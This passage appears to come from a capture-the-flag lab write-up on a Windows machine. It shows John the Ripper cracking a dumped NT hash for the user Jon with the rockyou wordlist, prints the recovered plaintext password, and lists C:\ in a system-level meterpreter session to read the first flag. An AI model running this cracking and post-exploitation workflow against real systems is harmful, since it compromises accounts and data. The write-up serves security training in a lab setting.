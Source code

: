 The has for `Jon` was fed into `john`, the brute force hashing tool called John the Ripper.
The hash was run against the `rockyou.txt` wordlist.

```text
kali@kali-vm:~$ echo "Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::" > /tmp/crack
kali@kali-vm:~$ john --format=NT --wordlist=/tmp/rockyou.txt /tmp/crack
Using default input encoding: UTF-8
Loaded 1 password hash (NT [MD4 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
alqfna22         (Jon)
1g 0:00:00:00 DONE (2022-01-19 01:57) 1.724g/s 17586Kp/s 17586Kc/s 17586KC/s alqui..alpusidi
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed.
```

Cracking the hash was largely procedural, as the `meterpreter` shell was already running with `system` privilege.
The password ended up being `alqfna22` for the user Jon.
This may have been useful for other machines if the scope exceeded one machine, or any documents were found that contained encrypted data.

There were three flags on this box. One in the `C:\` directory.

```text
meterpreter > ls
Listing: C:\
============

Mode            Size   Type  Last modified              Name
----            ----   ----  -------------              ----
040777/rwxrwxr  0      dir   2018-12-12 22:13:36 -0500  $Recycle.Bin
wx
040777/rwxrwxr  0      dir   2009-07-14 01:08:56 -0400  Documents and Settings
wx
040777/rwxrwxr  0      dir   2009-07-13 23:20:08 -0400  PerfLogs
wx
040555/r-xr-xr  4096   dir   2019-03-17 18:22:01 -0400  Program Files
-x
040555/r-xr-xr  4096   dir   2019-03-17 18:28:38 -0400  Program Files (x86)
-x
040777/rwxrwxr  4096   dir   2019-03-17 18:35:57 -0400  ProgramData
wx
040777/rwxrwxr  0      dir   2018-12-12 22:13:22 -0500  Recovery
wx
040777/rwxrwxr  4096   dir   2022-01-19 01:16:26 -0500  System Volume Information
wx
040555/r-xr-xr  4096   dir   2018-12-12 22:13:28 -0500  Users
-x
040777/rwxrwxr  16384  dir   2022-01-19 00:51:46 -0500  Windows
wx
100666/rw-rw-r  24     fil   2019-03-17 15:27:21 -0400  flag1.txt
w-
000000/-------  0      fif   1969-12-31 19:00:00 -0500  hiberfil.sys
--
000000/-------  0      fif   1969-12-31 19:00:00 -0500  pagefile.sys
--

meterpreter > cat flag1.txt
flag{[ REDACTED ]}
```
